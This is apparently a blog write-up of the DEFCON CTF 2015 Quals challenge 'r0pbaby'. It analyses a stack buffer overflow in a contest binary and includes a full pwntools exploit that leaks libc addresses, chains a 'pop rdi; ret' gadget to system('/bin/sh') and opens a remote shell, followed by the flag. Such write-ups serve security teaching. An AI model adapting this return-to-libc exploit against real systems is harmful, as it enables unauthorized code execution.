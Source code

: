 ```yaml
---
title: DEFCON CTF 2015 Quals -- r0pbaby
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
date: 2015-05-23 22:38
tags:
- DEFCON
- CTF
- ROP
- Pwnable
- Python
categories:
- write-ups
---
```


**Category:** Baby's First
**Points:** 1
> r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me:10436

<!-- more -->

64 bit ELF. No stack guard, but it has NX & PIE protection.  
The service will give you a menu first:  

> Welcome to an easy Return Oriented Programming challenge...  
> Menu:  
> 1) Get libc address  
> 2) Get address of a libc function  
> 3) Nom nom r0p buffer to stack  
> 4) Exit  

Th first one will print out the `libc.so.6`'s address, which contains the **real** libc base address. The second one will ask you to input a libc function's symbol, and print out the function's address. The third one will ask you to input a number(string length) and a string.  

After we check the binary with IDA Pro, we found the following informations:

```c
v0 = (signed __int64)nptr; // our input buffer
v1 = (signed __int64)&savedregs; // dest
memcpy(&savedregs, nptr, v7);
```

Our input will be stored at `nptr` first, then it'll be memcpy to `savedregs`. Let's check the location of `savedregs`:  
```c 
char nptr[1088]; // [sp+10h] [bp-440h]@2
__int64 savedregs; // [sp+450h] [bp+0h]@22 // on rpb
```

Right on the `rbp`!  
So everytime we choose `3)` and input something, it'll be copy to `rbp`, which means we can overwrite the return address. Since the binary has the **NX protection**, we better try the **return-2-libc** attack.  

The key point is to find a useful gadget. At first I try to leak the libc's base address, and attempt to guess the libc's version so I can calculate the `/bin/sh` and `pop rdi, ret` gadget. But I end with failure, since there's no other memory leakage vulnerability. At this moment, my teammate **bananaapple** propose a solution: **How about we find a gadget that's inside a function?**  

For instance, if we want to find a gadget `pop rdi, ret`, since `pop rdi, ret` = `5f c3` in machine code, we'll just have to find a functions that contains 2 bytes data `5f c3`, then we can calculate the offset and get the gadget's address. 

Using the aforementioned method, we quickly found that `5f c3` was at `_IO_proc_open` + 0x34d and `/bin/sh` was at `_libc_intl_domainname` + 0x0242. With these informations, we can now construct a ROP chain and exploit the service:

```python 
#!/usr/bin/env python

from pwn import *
import sys
import time

#HOST = "localhost"
HOST = "r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me"
PORT = 10436
#LIBC_PATH = "/lib/x86_64-linux-gnu/libc-2.19.so"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32

r = remote(HOST, PORT)

if __name__ == "__main__":

    print r.recvuntil(": ")

    # get system address
    r.sendline("2")
    r.recv(1024)
    r.sendline("system")
    s = r.recvuntil("Exit\n: ")
    print s
    system_addr = int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    log.success("system_addr: "+hex(system_addr))

    # get _IO_proc_open address to calculate [pop rdi, ret]'s address
    r.sendline("2")
    r.recv(1024)
    r.sendline("_IO_proc_open")
    s = r.recvuntil("Exit\n: ")
    print s
    open_addr = int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    pop_rdi_ret = open_addr + 0x34c + 1
    log.success("pop_rdi_ret: "+hex(pop_rdi_ret))
 
    # get _libc_intl_domainname address to calculate /bin/sh's address
    r.sendline("2")
    r.recv(1024)
    r.sendline("_libc_intl_domainname")
    s = r.recvuntil("Exit\n: ")
    print s
    domain_addr = int(s[s.index("0x"):s.index("\n1)"):].strip(), 16)
    bin_sh = domain_addr + 0x242
    log.success("bin_sh: "+hex(bin_sh))

    payload = "AAAAAAAA" # rbp
    payload += p64(pop_rdi_ret) # pop rdi, ret
    payload += p64(bin_sh) # char* point to /bin/sh
    payload += p64(system_addr) # system

    # send the payload
    r.sendline("3")
    r.recv(1024)
    r.sendline(str(len(payload)))
    r.sendline(payload)
    
    r.interactive()

```

Flag: `W3lcome TO THE BIG L3agu3s kiddo, wasn't your first?`